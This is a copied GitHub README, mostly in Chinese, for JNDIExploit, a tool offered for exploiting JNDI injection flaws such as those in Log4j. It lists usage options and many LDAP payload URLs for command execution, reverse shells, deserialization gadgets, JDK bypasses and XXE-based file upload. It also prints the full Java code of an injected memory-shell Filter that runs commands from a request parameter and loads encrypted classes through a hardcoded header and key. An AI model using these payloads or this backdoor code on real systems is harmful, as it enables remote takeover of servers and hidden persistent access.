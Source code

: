 # Credits
### Full credits to **feihong-cs**. I have just copied this repo for my reference to work with log4j if there is anything which i face. Since the repo has been deleted i copied it from wayback machine




# JNDIExploit
一款用于 ```JNDI注入``` 利用的工具，大量参考/引用了 ```Rogue JNDI``` 项目的代码，支持直接```植入内存shell```，并集成了常见的```bypass 高版本JDK```的方式，适用于与自动化工具配合使用。

## 使用说明

使用 ```java -jar JNDIExploit.jar -h``` 查看参数说明，其中 ```--ip``` 参数为必选参数

```
Usage: java -jar JNDIExploit.jar [options]
  Options:
  * -i, --ip       Local ip address
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show usage (default: false)
    -h, --help     Show this help
```

使用 ```java -jar JNDIExploit.jar -u``` 查看支持的 LDAP 格式
```
Supported LADP Queries
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://127.0.0.1:1389/Basic/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/Basic/Dnslog/[domain]
    ldap://127.0.0.1:1389/Basic/Command/[cmd]
    ldap://127.0.0.1:1389/Basic/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Basic/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/Basic/TomcatEcho
    ldap://127.0.0.1:1389/Basic/SpringEcho
    ldap://127.0.0.1:1389/Basic/WeblogicEcho
    ldap://127.0.0.1:1389/Basic/TomcatMemshell1
    ldap://127.0.0.1:1389/Basic/TomcatMemshell2  ---need extra header [shell: true]
    ldap://127.0.0.1:1389/Basic/JettyMemshell
    ldap://127.0.0.1:1389/Basic/WeblogicMemshell1
    ldap://127.0.0.1:1389/Basic/WeblogicMemshell2
    ldap://127.0.0.1:1389/Basic/JBossMemshell
    ldap://127.0.0.1:1389/Basic/WebsphereMemshell
    ldap://127.0.0.1:1389/Basic/SpringMemshell

[+] Deserialize Queries: ldap://127.0.0.1:1389/Deserialization/[GadgetType]/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/Deserialization/URLDNS/[domain]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK1/Dnslog/[domain]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK2/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils1/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils2/TomcatEcho
    ldap://127.0.0.1:1389/Deserialization/C3P0/SpringEcho
    ldap://127.0.0.1:1389/Deserialization/Jdk7u21/WeblogicEcho
    ldap://127.0.0.1:1389/Deserialization/Jre8u20/TomcatMemshell1
    ldap://127.0.0.1:1389/Deserialization/CVE_2020_2555/WeblogicMemshell1
    ldap://127.0.0.1:1389/Deserialization/CVE_2020_2883/WeblogicMemshell2    ---ALSO support other memshells

[+] TomcatBypass Queries
    ldap://127.0.0.1:1389/TomcatBypass/Dnslog/[domain]
    ldap://127.0.0.1:1389/TomcatBypass/Command/[cmd]
    ldap://127.0.0.1:1389/TomcatBypass/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/TomcatBypass/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/TomcatBypass/TomcatEcho
    ldap://127.0.0.1:1389/TomcatBypass/SpringEcho
    ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell1
    ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell2   ---need extra header [shell: true]
    ldap://127.0.0.1:1389/TomcatBypass/SpringMemshell

[+] GroovyBypass Queries
    ldap://127.0.0.1:1389/GroovyBypass/Command/[cmd]
    ldap://127.0.0.1:1389/GroovyBypass/Command/Base64/[base64_encoded_cmd]

[+] WebsphereBypass Queries
    ldap://127.0.0.1:1389/WebsphereBypass/List/file=[file or directory]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Dnslog/[domain]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Command/[cmd]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/WebsphereMemshell
    ldap://127.0.0.1:1389/WebsphereBypass/RCE/path=[uploaded_jar_path]   ----e.g: ../../../../../tmp/jar_cache7808167489549525095.tmp
```
* 目前支持的所有 ```PayloadType``` 为
  * ```Dnslog```: 用于产生一个```DNS```请求，与 ```DNSLog```平台配合使用，对```Linux/Windows```进行了简单的适配
  * ```Command```: 用于执行命令，如果命令有特殊字符，支持对命令进行 ```Base64编码```后传输
  * ```ReverseShell```: 用于 ```Linux``` 系统的反弹shell，方便使用
  * ```TomcatEcho```: 用于在中间件为 ```Tomcat``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```SpringEcho```: 用于在框架为 ```SpringMVC/SpringBoot``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```WeblogicEcho```: 用于在中间件为 ```Weblogic``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```TomcatMemshell1```: 用于植入```Tomcat内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```TomcatMemshell2```: 用于植入```Tomcat内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```, 使用时需要添加额外的```HTTP Header``` ```Shell: true```, **推荐**使用此方式
  * ```SpringMemshell```: 用于植入```Spring内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WeblogicMemshell1```: 用于植入```Weblogic内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WeblogicMemshell2```: 用于植入```Weblogic内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```，**推荐**使用此方式
  * ```JettyMemshell```: 用于植入```Jetty内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```JBossMemshell```: 用于植入```JBoss内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WebsphereMemshell```: 用于植入```Websphere内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
* 目前支持的所有 ```GadgetType``` 为
  * ```URLDNS```
  * ```CommonsBeanutis1```
  * ```CommonsBeanutis2```
  * ```CommonsCollections1```
  * ```CommonsCollections2```
  * ```C3P0```
  * ```Jdk7u21```
  * ```Jre8u20```
  * ```CVE-2020-2551```
  * ```CVE-2020-2883```
* ```WebsphereBypass``` 中的 3 个动作：
  * ```list```：基于```XXE```查看目标服务器上的目录或文件内容
  * ```upload```：基于```XXE```的```jar协议```将恶意```jar包```上传至目标服务器的临时目录
  * ```rce```：加载已上传至目标服务器临时目录的```jar包```，从而达到远程代码执行的效果（这一步本地未复现成功，抛```java.lang.IllegalStateException: For application client runtime, the client factory execute on a managed server thread is not allowed.```异常，有复现成功的小伙伴麻烦指导下）

## ```内存shell```说明
* 采用动态添加 ```Filter/Controller```的方式，并将添加的```Filter```移动至```FilterChain```的第一位
* ```内存shell``` 的兼容性测试结果请参考 [memshell](https://github.com/feihong-cs/memShell) 项目
* ```Basic cmd shell``` 的访问方式为 ```/anything?type=basic&pass=[cmd]```
* ```Behinder shell``` 的访问方式需要修改```冰蝎```客户端（请参考 [冰蝎改造之适配基于tomcat Filter的无文件webshell](https://mp.weixin.qq.com/s/n1wrjep4FVtBkOxLouAYfQ) 的方式二自行修改），并在访问时需要添加 ```X-Options-Ai``` 头部，密码为```rebeyond```

植入的 Filter 代码如下：
```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("[+] Dynamic Filter says hello");
        String k;
        Cipher cipher;
        if (servletRequest.getParameter("type") != null && servletRequest.getParameter("type").equals("basic")) {
            k = servletRequest.getParameter("pass");
            if (k != null && !k.isEmpty()) {
                cipher = null;
                String[] cmds;
                if (File.separator.equals("/")) {
                    cmds = new String[]{"/bin/sh", "-c", k};
                } else {
                    cmds = new String[]{"cmd", "/C", k};
                }

                String result = (new Scanner(Runtime.getRuntime().exec(cmds).getInputStream())).useDelimiter("\\A").next();
                servletResponse.getWriter().println(result);
            }
        } else if (((HttpServletRequest)servletRequest).getHeader("X-Options-Ai") != null) {
            try {
                if (((HttpServletRequest)servletRequest).getMethod().equals("POST")) {
                    k = "e45e329feb5d925b";
                    ((HttpServletRequest)servletRequest).getSession().setAttribute("u", k);
                    cipher = Cipher.getInstance("AES");
                    cipher.init(2, new SecretKeySpec((((HttpServletRequest)servletRequest).getSession().getAttribute("u") + "").getBytes(), "AES"));
                    byte[] evilClassBytes = cipher.doFinal((new BASE64Decoder()).decodeBuffer(servletRequest.getReader().readLine()));
                    Class evilClass = (Class)this.myClassLoaderClazz.getDeclaredMethod("defineClass", byte[].class, ClassLoader.class).invoke((Object)null, evilClassBytes, Thread.currentThread().getContextClassLoader());
                    Object evilObject = evilClass.newInstance();
                    Method targetMethod = evilClass.getDeclaredMethod("equals", ServletRequest.class, ServletResponse.class);
                    targetMethod.invoke(evilObject, servletRequest, servletResponse);
                }
            } catch (Exception var10) {
                var10.printStackTrace();
            }
        } else {
            filterChain.doFilter(servletRequest, servletResponse);
        }

    }
 ```
 
 ## 参考
 * https://github.com/veracode-research/rogue-jndi
 * https://github.com/welk1n/JNDI-Injection-Exploit
 * https://github.com/welk1n/JNDI-Injection-Bypass
